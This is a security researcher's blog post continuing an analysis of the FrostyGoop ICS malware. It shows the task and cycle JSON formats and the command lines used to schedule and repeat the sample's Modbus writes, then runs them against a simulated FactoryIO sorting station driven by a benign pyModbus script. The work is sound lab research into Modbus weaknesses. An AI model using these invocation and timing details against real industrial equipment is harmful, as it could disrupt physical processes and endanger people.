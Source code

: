 ```yaml
---
title: Functional Analysis of FrostyGoop ICS Malware pt. 2/2
description: Playing around with FrostyGoop
summary: Taking FrostyGoop to the next level and attacking a simulated sorting machine.
draft: false
date: 2024-07-28T09:00:00+01:00
publishDate: 2024-07-28T09:00:00+01:00
tags: ["cyber security", "malware", "analysis", "functional", "stuxnet", "havex", "industroyer", "reverse engineering", "ICS", "OT", "FactoryIO", "hacking", "frostygoop"]
---
```


## Introduction

While analysing the FrostyGoop ICS malware in my previous [blogpost](https://www.remyjaspers.com/blog/frostygoop) I had way too much fun with analyzing the Modbus TCP protocol and its security (or lack thereof). Not being able to use the timing and automating bit of the malware haunted me and I wanted to fully understand it. Shoutout to Nozomi for their awesome [writeup](https://www.nozominetworks.com/blog/protecting-against-frostygoop-bustleberm-malware) of the malware. They were able to reverse engineer the task_test.json file which I was still figuring out. 

Armed with this knowledge, I wanted to take this malware and experimentation with unauthenticated Modbus to the next level. I experimented some more with the timing commands until I got them to work. 

After I show some more details on how to run the commands to time execution of FrostyGoop, I will build a small lab to have something more interesting to look at than the ModRssim2 table of register values :yawning_face:.  After [digging](https://rodrigocantera.com/en/modbus-tcp-packet-injection-with-scapy/) around, I found this awesome [industrial conveyor belt color sorter ](https://community.factoryio.com/t/sort-by-color-conveyor-system/222) scenario in a ICS simulation software called [FactoryIO](https://factoryio.com/). FactoryIO allows to interact with it using software from many ICS vendors (Siemens, Rockwell etc. ) This looks like the perfect candidate for a more realistic attack scenario! Before we attack this sorting station however, let's have a brief look at how FrostyGoop's timed execution works.

![img/sorting_machine.jpg](img/sorting_machine.jpg)

## FrostyGoop Timing

As the folks from Nozomi showed, FrostyGoop can be run with a tasklist JSON file that lays out the steps to automatically attack Modbus appliances. This greatly helps in foregoing the repetitive task of providing command line arguments for each Modbus message to be sent. This file assumes the following format:

```JSON
{
    "Iplist" : ["127.0.0.1"],
    "Tasks" : [
        {
            "Code" : 16,
            "Address" : 0,
            "Value" : 8000,
            "Count" : 3
        }
    ]
   
}
```

After playing around with the sample for a bit longer I found out how to use the *StartTime*, *PeriodTime*, *WaitTime* and *IntervalTime* variables. We can provide these in a *separate* JSON file so FrostyGoop's execution can be delayed, repeated, or scheduled. Unfortunately I was only able to set the StartTime in hours, but I found no way to make it work with a UTC date/time string. This "cycle info" JSON file has the following format:

```JSON
{
 "StartTime" : "13:20:00",
 "IntervalTime" :  "1ms",
 "PeriodTime" : "1ms",
 "WorkTime" : "20s"
} 

```

| Command | Explanation |
|-|-|
|StartTime | UTC time string to schedule execution (HH:MM:SS)|
|IntervalTime | Time between executions |
|PeriodTime | Not sure about this one|
| WorkTime | Length of time for the malware to repeat execution (20 seconds)|

To execute the malware with the timing info, the following command can be used:

```Powershell
.\mb.exe -cycle .\cycle.json -input-task .\task_test.json
```

You can also just execute this malware in a Powershell loop, but this provides less flexibility:

```Powershell
While (1) { ./mb.exe -input-task ./task_test.json; }
```
## Driving the sorting station

The project files I found on the FactoryIO community were great but only provided Rockwell PLC driver code for the project and a proprietary ControlIO driver. Neither of them suited my purposes very well as I don't want to learn an entire software stack just to prove a point :grinning_face: . So I decided to cook something up myself. 

Before we can interact with FactoryIO, we have to configure it as a Modbus TCP/IP server, with the following settings. The other settings are left to their defaults, but it is important to set the Slave ID to 254 (because FrostyGoop for some reason sets this as the default?). Other settings are left to their defaults:

![img/factoryio_modbus_config.png](img/factoryio_modbus_config.png)
 
FactoryIO shows a nice overview of all the registers that can be read and/or written to. By connecting the various sensors and actuators to the right registers, we are able to send Modbus commands to drive them. I configured the sensors and actuators as follows:

![img/modbus_register_overview.png](img/modbus_register_overview.png)

I decided to just write a small driver in Python using the [pyModbus](https://pypi.org/project/pymodbus/) library. This code is probably devoid of any decent PLC programming practices (I have zero experience with that stuff). Regardless, it works for our purposes. It reads the Modbus registers that store the sensor (vision, laser) values and drives the actuators (load pushers, conveyor belt etc.) based on those values, and sorts the conveyed parts in their respective buckets. 

```Python
from pymodbus.client import ModbusTcpClient
from pymodbus.exceptions import ModbusException
import time

SLAVE = 254

c = ModbusTcpClient('127.0.0.1')   # Create client object
c.connect()                        # connect to device, reconnect automatically

# Reset 
c.write_coil(0, 1, SLAVE); # emitter start
c.write_coil(1, 0, SLAVE); # load pusher reset

c.write_coil(2, 0, SLAVE); # pusher 1 reset
c.write_coil(3, 0, SLAVE); # pusher 2 reset
c.write_coil(4, 0, SLAVE); # pusher 3 reset

c.write_register(7, 0, SLAVE); #reset belt speed
c.write_register(14, 0, SLAVE); # conveyor belt off

while c.connected:

        part_ready = c.read_discrete_inputs(0, 1, SLAVE).bits[0];
        part_pres_1 = c.read_discrete_inputs(1, 1, SLAVE).bits[0];
        part_pres_2 = c.read_discrete_inputs(2, 1, SLAVE).bits[0];
        part_pres_3 = c.read_discrete_inputs(3, 1, SLAVE).bits[0];
        
        load_pusher_adv = c.read_discrete_inputs(4, 1, SLAVE).bits[0];
        load_pusher_ret = c.read_discrete_inputs(5, 1, SLAVE).bits[0];

        metal_bin = c.read_discrete_inputs(5, 1, SLAVE).bits[0];
        blue_bin = c.read_discrete_inputs(6, 1, SLAVE).bits[0];
        green_bin = c.read_discrete_inputs(7, 1, SLAVE).bits[0]
        reject_bin = c.read_discrete_inputs(8, 1, SLAVE).bits[0];

        metal_detect = c.read_input_registers(2, 1, SLAVE).registers[0];
        blue_detect = c.read_input_registers(1, 1, SLAVE).registers[0];
        green_detect = c.read_input_registers(0, 1, SLAVE).registers[0];
        
        metal_retract = c.read_input_registers(5, 1, SLAVE).registers[0];
        blue_retract = c.read_input_registers(4, 1, SLAVE).registers[0];
        green_retract = c.read_input_registers(3, 1, SLAVE).registers[0];

        belt_speed = c.read_input_registers(7, 1, SLAVE).registers[0];
        conv_off = c.read_discrete_inputs(14, 1, SLAVE).bits[0];
        
        if conv_off:
                c.write_register(7, 0, SLAVE); # Reset belt speed
        else:
                c.write_register(7, belt_speed, SLAVE); # Set belt speed based on knob
                
        if part_pres_1:
                c.write_coil(0, 0, SLAVE); # Emitter disable
        else:
                c.write_coil(0, 1, SLAVE); # Emitter enable

        if not part_ready and load_pusher_ret:
                c.write_coil(1, 1, SLAVE); # Load pusher adv
       
        if load_pusher_adv:
                c.write_coil(1, 0, SLAVE); # Load pusher retract
    
        if metal_detect == 9 and part_pres_3:
                c.write_register(2, 0x7FFF, SLAVE); # Pusher metal adv
        else:
                c.write_register(2, 0x8000, SLAVE); # Pusher metal retract
        
        if blue_detect == 2 and part_pres_2:
                c.write_register(1, 0x7FFF, SLAVE); # Pusher blue adv
        else:
                c.write_register(1, 0x8000, SLAVE); # Pusher blue retract
        
        if green_detect == 5 and part_pres_1:
                c.write_register(0, 0x7FFF, SLAVE); # Pusher green adv
        else:
                c.write_register(0, 0x8000, SLAVE); # Pusher green retract
        
        time.sleep(0.1);
```

Under normal operation, the color sorter works as intended, putting the metal, blue and green lids, and the small paper boxes in their respective bucket (sped up 4x for your viewing pleasure). Warning: please have some patience, the GIFs below may take a while to load. If you don't see anything yet, please refresh the page. 

![Normal Operation](img/normal_operation.gif)

Let's attack this sorting machine and see what happens. 

## Attacking the sorting station with FrostyGoop

Using the aforementioned task and cycle info JSON files, we run FrostyGoop to target the sorting machine. Twenty seconds of sending crafted Modbus messages is all it takes to throw the sorting machine into disarray:

![Attacked](img/attacked_operation.gif)

## Conclusion

This hopefully reinforces the point that using unauthenticated Modbus TCP is a *bad* idea. Even rather unsophisticated malware like FrostyGoop can do real damage if deployed under the right circumstances. 

Thanks for reading until the end. If you have any questions or suggestions feel free to drop me a message on Linkedin or Xitter (@st0yky).